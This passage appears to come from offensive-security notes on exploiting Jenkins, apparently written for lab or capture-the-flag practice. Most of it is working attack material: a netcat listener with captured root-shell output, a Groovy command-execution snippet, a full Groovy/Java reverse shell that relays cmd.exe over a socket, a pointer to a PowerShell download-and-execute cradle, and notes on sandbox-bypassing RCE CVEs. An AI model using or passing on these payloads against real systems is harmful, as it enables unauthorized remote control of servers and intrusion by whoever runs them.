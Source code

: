 ```bash
nc -lvnp 8443
```

**Output:**

```plaintext
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 57844
id
uid=0(root) gid=0(root) groups=0(root)
/bin/bash -i
```
## 3. Windows Command Execution

### Basic Command Execution

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

### Reverse Shell (Java - Windows)

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
  while(pi.available()>0)so.write(pi.read());
  while(pe.available()>0)so.write(pe.read());
  while(si.available()>0)po.write(si.read());
  so.flush();po.flush();
  Thread.sleep(50);
  try {p.exitValue();break;} catch (Exception e){}
};
p.destroy();s.close();
```

### PowerShell Cradle (Windows)

* Use **Invoke-PowerShellTcp.ps1** script.
* Example payload: PowerShell one-liner to download and execute.

## 4. Miscellaneous Vulnerabilities

### CVE-2018-1999002 & CVE-2019-1003000

* **Unauthenticated RCE**
* Bypasses **Groovy sandbox protections**
* Exploits dynamic routing to load & execute malicious JAR files

